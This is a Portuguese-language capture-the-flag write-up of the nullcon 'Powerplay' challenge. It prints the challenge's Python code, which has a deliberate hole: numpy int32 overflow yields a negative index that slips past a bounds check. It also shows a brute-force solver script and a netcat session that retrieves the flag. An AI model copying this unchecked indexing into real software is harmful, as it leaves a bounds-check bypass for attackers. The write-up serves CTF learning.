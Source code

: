 # WriteUp: Powerplay
## Descrição do Desafio
**Categoria**: misc

**Descrição**:
> Pump yourself up with power to get an inspirational quote.

### Arquivos
| Arquivo | Descrição |
| ------- | --------- |
| chall.py | Código sendo executado no servidor. |
| solve.py | Script em Python que descobre o número correto. |

> 📥 **Download:** [Arquivos](https://github.com/HawkSecUnifei/Writeups/raw/refs/heads/main/2025/nullcon_CTF/Powerplay/Arquivos.zip)

## Solução
O desafio disponibliza o seguinte código python.

{% code title="chall.py" overflow="wrap" lineNumbers="true" %}

```py
import numpy as np
from secret import flag, quotes

prizes = quotes + ['missingno'] * 4 + [flag] * 24

if __name__ == '__main__':
	print('Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!\n')
	player_count = int(input('How many players participate?\n'))
	power = np.zeros(player_count, dtype = np.int32)
	for i in range(player_count):
		power[i] = int(input(f'Player {i}, how strong are you right now?\n'))
	ready = False

	while True:
		print('What do you want to do?\n1) pump up\n2) cash in')
		option = int(input())
		if option == 1:
			power = power**2
			ready = True
		elif option == 2:
			if not ready:
				raise Exception('Nope, too weak')
			for i in range(player_count):
				if power[i] < len(quotes):
					print(f'You got an inspiration: {prizes[power[i]]}')
			exit()
		else:
			raise Exception('What?')

```

{% endcode %}

Analisando esse código, podemos ver que há um vetor `prizes` que contém várias strings e a flag 24 vezes no final, então, precisamos acessar alguma dessas posições em que a flag está.

Observando o funcionamento do código, é primeiro pedido do usuário a quantidade de jogadores e a "força" de cada jogador, após isso, o usuário pode escolher duas opções. A primeira opção "pump up" eleva todos as "forças" de todos os jogadores ao quadrado e a segunda opção "cash in" acessa uma posição do vetor prizes, porém, so irá acessar a posição caso a "força" do jogador seja menor que a quantidade de strings no vetor "quotes".

Portanto, precisamos escolher uma "força" que, ao elevar ao quadrado, resulte em uma posição em que a flag está no vetor de `prizes`, porém, como o vetor `prizes` contém todas as strings de `quotes` e o código não deixa
o usuário acessar alguma posição que seja maior que o tamanho de `quotes`, não podemos acessar as posições que a flag está de maneira tradicional.

Para passar por essa verificação, podemos usar uma propriedade da linguagem python que é os índices negativos.

{% code title="" overflow="wrap" lineNumbers="true" %}

```py
v[-1] # Última posição
v[-2] # Penúltima posição
v[-3] # Antepenúltima posição
```

{% endcode %}

Desse modo, precisamos acessar alguma posição entre `-1` e `-24`, que são as posições em que a flag se encontra. Porém, precisamos de algum número que, elevado ao quadrado, resulta em um número nesse intervalo. 
Podemos fazer isso utilizando `integer overflow`.

{% code title="" overflow="wrap" lineNumbers="true" %}

```py
power = np.zeros(player_count, dtype = np.int32)
```

{% endcode %}

Como a variável `power` é definido commo um int de 32 bits, podemos encontrar algum número que, elevado ao quadrado, passa do valor máximo de inteiros de 32 bits e resulta em um número negativo. Para fazer isso,
podemos fazer um script simples que testa todos os números de `0` até o maior inteiro possível de 32 bits e verifica se esse número ao quadrado se encaixa no intervalo de `-24` a `-1`.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
import numpy as np

def encontra_indice():
    for i in range(2147483647): # Ate maior valor inteiro possivel
        i2 = np.int32(i) ** 2   # Elevando ao quadrado
        if i2 >= np.int32(-24) and i2 < 0: # Verificando se esta no intervalo -24 a -1
            return i, i2

indice, indiceQuadrado = encontra_indice()
print("Número encontrado " +  str(indice))
print(str(indice) + " ao quadrado = " + str(indiceQuadrado))
```

{% endcode %}

Ao rodar esse script, obtemos o seguinte output.

```shell
Número encontrado 34716455
34716455 ao quadrado = -15
```

Agora, basta apenas conectar ao servidor e usar esse número como "força" de qualquer jogador

```shell
root@DESKTOP-4IEKTFM:/mnt/c/Users/Caio/Desktop# nc 52.59.124.14 5016
Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!

How many players participate?
1
Player 0, how strong are you right now?
34716455
What do you want to do?
1) pump up
2) cash in
1
What do you want to do?
1) pump up
2) cash in
2
You got an inspiration: ENO{d0_n0t_be_s0_neg4t1ve_wh3n_y0u_sh0uld_be_pos1t1ve}
```

### Flag: `ENO{d0_n0t_be_s0_neg4t1ve_wh3n_y0u_sh0uld_be_pos1t1ve}`

## Autor da WriteUp
[Membro de Exploitation - CaioMendesRRosa](https://github.com/CaioMendesRRosa)